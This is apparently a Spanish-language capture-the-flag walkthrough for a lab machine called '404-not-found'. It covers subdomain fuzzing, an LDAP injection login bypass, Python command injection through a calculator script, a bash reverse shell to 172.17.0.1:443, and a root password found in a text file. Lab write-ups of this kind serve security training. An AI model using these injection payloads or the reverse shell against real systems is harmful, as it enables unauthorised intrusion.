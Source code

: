 nmap: 22,80

![image](https://github.com/user-attachments/assets/2b6eed0f-c4b9-4bcb-b84d-3fbfe9437982)


---
al hacer el nmap vemos que el puerto 80 tiene una pagina con "hl" al final

![image](https://github.com/user-attachments/assets/00fb62a3-401f-40ce-a6c6-046641820ccd)

lo que tenemos que agregar esa redirección en el  "/etc/hosts"
http://404-not-found.hl/

en la pagina principal ahora vemos eso y aceptamos el desafio:

![image](https://github.com/user-attachments/assets/ca2f05b7-9e39-4c8b-b1c6-ab6cef4f2fd4)


en la pagina hay cuadros con "pistas". hay una en código base64 

![image](https://github.com/user-attachments/assets/21c6bc7f-4b39-4991-b972-2e4f1fbf9b75)


que lo sacamos:
>echo "`UXVlIGhhY2VzPywgbWlyYSBlbiBsYSBVUkwu`" | base64 -d 

![image](https://github.com/user-attachments/assets/6ec0aa26-5305-4c98-8661-c514c470e5e8)


y nos da: Que haces?, mira en la URL. 

hacemos un:


    - wfuzz -c -u 404-not-found.hl -H "HOST: FUZZ.404-not-found.hl" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hw 28

nos da: info

![image](https://github.com/user-attachments/assets/e26da39b-a5fd-47dd-8b60-3489ca23bc2a)


metemos ese info en /etc/host como el primer URL que tenemos.
http://info.404-not-found.hl/
quedaría: info.404-not-found.hl

![image](https://github.com/user-attachments/assets/326bd27a-8218-48a8-8afe-9fff9203851d)


nos manda a un login y vamos probando credenciales por default. 
vemos el código fuente y al final hay un mensaje:
> I believe this login works with LDAP
> 
![image](https://github.com/user-attachments/assets/d2ed5af5-49d9-4b99-b3b5-c9694372c261)


buscamos credenciales de inyección de LDAP
probamos las inyección que tiene: https://book.hacktricks.xyz/v/es/pentesting-web/ldap-injection

![image](https://github.com/user-attachments/assets/7a5b62ab-8c46-4f74-bdb1-59d1f49849b7)

y sirve: 

        user=*)(|(&
         pass=pwd)

en el panel de admin nos da las credenciales: 

       - Nombre de usuario: `404-page`
       - Contraseña: `not-found-page-secret`

![image](https://github.com/user-attachments/assets/b5768cb3-21d1-44b2-a00b-df510322316e)


entramos por el ssh en el terminal y ahora buscamos como escalar hacia root.

![image](https://github.com/user-attachments/assets/c83ef588-3f2f-4658-8b07-95b98ff1dc96)


como se ve hay un calculadora.py se refiere a python y solo podemos ejecutar.

![image](https://github.com/user-attachments/assets/f6823809-e7f4-49d4-94ab-c37a7f896524)


encontramos un comando para ejecutar con python del programa que encontramos:
https://snyk.io/blog/command-injection-python-prevention-examples/

![image](https://github.com/user-attachments/assets/6d7098a9-2ec1-4a2d-8d01-b0f91aa1a879)


comando de ejecución:

     __import__('os').popen('ls').read()

![image](https://github.com/user-attachments/assets/aab997c9-6d97-4236-b52d-48cde834676b)


lo modificamos para una reverse shell para verificar: 

         __import__('os').popen("/bin/bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'").read()

colocamos el puerto en escucha y estamos dentro del usuario 200-ok

![image](https://github.com/user-attachments/assets/ad34b515-d69e-4277-a76c-0c78e57d873c)

 buscamos como escalar y aparece un txt que se llama: 
>boss.txt que contiene: what is rooteable

![[boss.png]]

probamos rooteable como contraseña de root:

![[root.png]]

su root / rooteable y somos root!: 
